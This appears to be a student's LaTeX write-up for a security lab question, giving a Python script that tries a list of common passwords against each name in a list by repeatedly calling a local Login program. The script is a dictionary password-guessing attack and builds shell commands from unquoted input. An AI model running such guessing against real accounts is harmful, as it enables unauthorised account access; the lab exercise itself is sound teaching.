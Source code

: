 \documentclass{article}
\begin{document}
\section{Question 2}

\subsection*{Task:}
Given a list of most common passwords and a list of names, create a script to
find out what passwords they used.

\subsubsection*{Break2.py:}
\begin{lstlisting}[language=Python]
    import time
    import os

    if __name__ in '__main__':
        start_time = time.time()
        common_passwords=[i.strip() for i in open('/home/cse/Lab1/MostCommonPWs.txt')]
        gang_names=[i.strip() for i in open('/home/cse/Lab1/gang.txt')]

        for name in gang_names:
            for i in common_passwords:
                res = os.system('python3 ./Login.pyc'+ ' ' + name + ' ' + i + " >/dev/null 2>&1")
                if res == 0:
                    print(name, i, "--- %s seconds ---" % (time.time() - start_time))
                    break
            if res != 0:
                print(name,' ?')
\end{lstlisting}
\subsubsection*{Output:}
\begin{center}
    \includegraphics[scale=.8]{images/Q2_Output.png}
\end{center}
\end{document}
